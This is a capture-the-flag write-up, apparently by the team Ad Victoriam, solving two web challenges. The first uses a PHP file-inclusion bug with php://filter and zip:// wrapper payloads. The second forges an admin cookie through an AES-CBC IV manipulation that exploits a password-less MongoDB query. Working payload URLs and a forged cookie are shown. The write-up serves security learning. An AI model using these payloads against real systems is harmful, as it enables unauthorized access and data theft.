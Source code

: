Participated as Ad Victoriam.

## web200

First of all, there is a LFI vulnerability in a GET parameter by testing parameters in the `index.php`.
As you analyze the mode parameter, you can see that the code executes in the form of `include(null_filter($var).".php");`.

At this rate, trying `php://filter` on the parameter would leak out the sourcecode of the `upload.php` and other files.
`payload: (index.php?mode=php://filter/convert.base64-encode/resource=upload)`

As we look further of how `upload.php` works,
we find out that the file checks for the extension, but does not check its contents of the uploaded file.

Based on this information, we can think about zipping the file and load the php script from the zip file.

The possible payload from this can be `index.php?mode=zip:///var/www/owlur/owlur-upload-zzzzzz/*returned_filename_from_upload_php*.jpg%23*your_real_payload*`

Through this method you will be able to list the directory and read files, and eventually let you to read the file named `OWLUR-FLAG.txt` on the `/` directory.

```
GET: index.php?zip:///var/www/owlur/owlur-upload-zzzzzz/tqpmLQ2.jpg%23stypr

Response:
owlur
pwning complete by stypr
FLAG->PHP fILTerZ aR3 c00l buT i pr3f3r f1lt3r 0xc0ffee
```

--

## web400

The database seemed to be truncated every 15 minutes or so, and you can find out that the 'admin' username is taken whenever the database gets truncated.

The best possible case could be to try a sql injection based on the functionality of mongodb and python.
By reading the `index.py` script given from the ctf, you can see that the script encrypts the `auth` param in the cookie with AES-CBC encryption, which is vulnerable to padding attacks.

Moreover, if we think about the code `user = g.db.users.find_one(get_cookie())` and the outline of how mongodb works,
we can actually remove the password parameter and let the cookie have the username only in it.

The example is desribed as shown in below:
```
python: {"u":"username", "pw":"stypr"}
mongodb: SELECT * FROM (unknown) WHERE u='username' and pw='stypr'

python: {"u":"username"}
mongodb: SELECT * FROM (unknown) WHERE u='username'
```

Based on the things we kept in our mind, we just need to make the auth cookie to have `{"u":"admin"}\x03\x03\x03` as the plaintext, in order to be authenticated as admin.

```
- cbc padding vulnerability
    $ python
    ... (stripped - it does "plaintext xor iv xor fake_text" to create a fake iv) ...
    >>> print(base64.b64encode(malformed_iv+original_data))
        2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo=

- setting up the cookie (put this on a javascript console)
    document.cookie="auth=2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo;"

- the http response
    <h2>Logged in as admin</h2> 
    ...
    <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
```
